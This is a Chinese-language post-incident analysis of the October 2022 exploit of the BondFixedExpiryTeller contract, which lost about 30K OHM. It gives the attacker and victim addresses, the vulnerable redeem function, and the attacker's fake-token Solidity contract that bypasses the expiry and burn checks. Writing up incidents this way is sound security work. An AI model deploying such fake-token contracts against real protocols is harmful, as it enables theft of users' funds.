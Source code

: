 # 20221021 - BondFixedExpiryTeller - 参数可控 ~ 30K $OHM

## 相关地址

攻击者地址: 0x443cf223e209E5A2c08114A2501D8F0f9Ec7d9Be

被攻击合约地址: 0x007fe7c498a2cf30971ad8f2cbc36bd14ac51156

攻击交易: 0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf

攻击合约地址: 0xa29e4fe451ccfa5e7def35188919ad7077a4de8f

## 攻击分析

![image-20240716102943496](../../img/image-20240716102943496.png)

攻击者首先查询合约中 $OHM 代币数量

![img](../../img/1705979563195-8ebefe7f-9c2a-4c8f-96f5-c31199b7bc04.png)

通过调用合约中存在漏洞的 redeem 函数转移出 30,473 $OHM 代币

![img](../../img/1705979637563-40da9908-b113-48bb-97a4-e9a8a1a7a40a.png)



漏洞出现在 BondFixedExpiryTeller 合约中的 redeem 方法

![img](../../img/1705979726981-a8602ce2-4d25-44f1-b2db-a8b1094dca43.png)

```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

合约中 redeem 方法主要做赎回代币操作，if语句检查当前的时间戳是否小于token*的到期时间，而* ERC20BondToken token 地址允许任何人传入合约地址，并调用恶意合约中的 burp，underlying, expiry 等方法

```solidity
// 恶意合约
address constant OHM = 0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5;

contract ExpToken {
    function underlying() external pure returns (address) {
        return OHM;
    }

    function expiry() external pure returns (uint48 _expiry) {
        return 1;
    }

    function burn(address, uint256) external pure {
    }
}
```

最后会将 amount_ 参数数量的代币 transfer 发送给调用者，此时就导致合约中的 $OHM 代币被全部转出

![img](../../img/1705983523889-91b6aba0-e328-401a-85f8-91607e951557.png)